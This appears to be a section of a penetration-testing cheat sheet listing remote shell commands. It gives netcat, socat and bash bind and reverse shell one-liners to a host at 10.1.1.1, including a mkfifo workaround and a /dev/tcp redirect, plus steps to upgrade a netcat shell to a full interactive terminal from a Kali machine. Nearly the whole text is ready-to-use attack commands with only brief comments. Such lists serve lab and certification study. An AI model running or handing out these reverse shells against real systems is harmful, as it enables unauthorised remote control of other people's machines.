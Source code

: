 ## Shells <a name="shells"></a>

### Netcat <a name="nc"></a>
```bash
# Bind shell
nc -nvlp 4567 -e /bin/bash

# Listener
nc -nvlp 444

# Reverse shell with -e option
nc -nv 10.1.1.1 444 -e /bin/bash

# Reverse shell without -e option
mkfifo /tmp/f; nc 10.1.1.1 444 0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
### Socat <a name="socat"></a>
```bash
# Listener
socat file:`tty`,raw,echo=0 tcp-listen:444
socat TCP4-LISTEN:4567 STDOUT

# Reverse shell
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.1.1.1:444
socat TCP4:10.1.1.1:4567 EXEC:/bin/bash
```

### Bash <a name="bash"></a>
```bash
# Reverse
bash -i >& /dev/tcp/10.1.1.1/444 0>&1
```

### Interactive Shells <a name="interactiveshells"></a>
```bash
# Python pty module
python -c "import pty; pty.spawn('/bin/bash')"

### Full tty upgrade from netcat
# On target
python -c "import pty; pty.spawn('/bin/bash')"
Ctrl-Z

# On Kali
stty raw -echo
fg

# On target
reset
export SHELL=bash
export TERM=xterm-256color	# Find on Kali with 'echo $TERM'
stty rows 24 columns 80		# Find on Kali with 'stty -a'
```
